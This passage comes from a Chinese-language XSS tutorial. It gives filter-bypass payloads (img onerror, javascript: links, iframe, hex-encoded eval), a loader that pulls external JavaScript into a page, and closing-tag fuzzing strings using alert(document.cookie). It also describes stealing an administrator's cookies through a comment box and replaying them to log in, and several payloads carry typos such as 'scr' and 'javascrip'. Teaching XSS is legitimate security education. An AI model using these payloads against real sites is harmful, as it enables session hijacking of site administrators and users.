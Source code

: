 **0×04 过滤的解决办法**

假如说网站禁止过滤了script 这时该怎么办呢，记住一句话，这是我总结出来的“xss就是在页面执行你想要的js”不用管那么多，只要能运行我们的js就OK，比如用img标签或者a标签。我们可以这样写

```
<img scr=1 onerror=alert('xss')>当找不到图片名为1的文件时，执行alert('xss')
<a href=javascrip:alert('xss')>s</a> 点击s时运行alert('xss')
<iframe src=javascript:alert('xss');height=0 width=0 /><iframe>利用iframe的scr来弹窗
<img src="1" onerror=eval("\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29")></img>过滤了alert来执行弹窗
```

等等有很多的方法，不要把思想总局限于一种上面，记住一句话“xss就是在页面执行你想要的js”其他的管他去。(当然有的时候还有管他…)

**0×05 xss的利用**

说了那么多，大家可能都以为xss就是弹窗，其实错了，弹窗只是测试xss的存在性和使用性。

这时我们要插入js代码了，怎么插呢？

你可以这样

```
<script scr="js_url"></script>
```

也可以这样

```
<img src=x onerror=appendChild(createElement('script')).src='js_url' />
```

各种姿势，各种插，只要能运行我们的js就OK。那运行我们的js有什么用呢？

Js可以干很多的事，可以获取cookies(对http-only没用)、控制用户的动作(发帖、私信什么的)等等。

比如我们在网站的留言区输入<script 
scr="js_url"></script>当管理员进后台浏览留言的时候，就会触发，然后管理员的cookies和后台地址还有管理员浏览器版本等等你都可以获取到了，再用“桂林老兵cookie欺骗工具”来更改你的cookies，就可以不用输入账号
 密码 验证码 就可以以管理员的方式来进行登录了。

至于不会js的怎么写js代码呢，放心网上有很多xss平台，百度一下就可以看到了。页面是傻瓜式的操作，这里就不再过多的说明了。

**5.2 XSS挖掘**

知道了最基本的XSS构造和利用技巧后，下面再来看看具体的存储型XSS场景：

1）：添加正常留言，昵称为“CC”,留言内容为“hello”，使用Firebug快速寻找标签，发现标签，例如：

`<li><strong>CC</strong><span class="message">hello world</span><span class="time">2018-03-03 23:34:50</span></li>`

2):如果显示区域不在HTML属性内，则可以直接利用xss代码注入。如果说不能得知内容具体的输出位置，则可以使用模糊测试方法，xss代码如下：

`<script>alert(document.cookie)</script>`:普通注入

`"/><script>alert(document.cookie)</script>`:闭合注入

`</textarea><script>alert(document.cookie)</script>`:闭合标签注入

3):在插入盗取COOkie的JavaScript代码后，重新加载留言页面，XSS代码被浏览器执行。

![17](D:\存储\文章\xss跨站\17.png)

